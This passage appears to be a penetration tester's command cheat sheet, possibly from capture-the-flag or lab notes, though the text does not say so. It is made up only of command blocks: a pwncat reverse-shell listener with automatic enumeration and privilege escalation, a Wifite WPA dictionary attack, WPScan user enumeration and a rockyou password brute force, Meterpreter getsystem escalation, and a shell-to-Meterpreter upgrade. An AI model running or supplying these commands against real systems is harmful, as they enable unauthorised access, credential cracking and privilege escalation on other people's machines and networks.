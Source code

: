 ```sh
pwncat-cs
listen -m linux 1234
sessions
sessions 0
ctrl+d
```

### track modifications

```sh
tamper
tamper --revert --all

source env/bin/activate
pwncat user@IP
run enumerate.gather
run escalate.auto
run escalate.auto exec
```

## Wifite

```sh
sudo wifite --wpa --dict file.txt --kill
```

## wpscan

```sh
wpscan --url $IP/wordpress -e at
wpscan --url $IP/wordpress -e ap
wpscan --url $IP/wordpress -e u
wpscan --url $IP/wordpress --enumerate
wpscan --url $IP/wordpress -U users.txt -P /usr/share/wordlists/rockyou.txt
```

## Meterpreter Windows PrivEsc

### GetSystem

```sh
use priv
getsystem
getuid
```

### Meterpreter shell

```sh
^Z
search shell_to_meterpreter
use 0
options
set SESSION 1
run
sessions
sessions -i 2
```
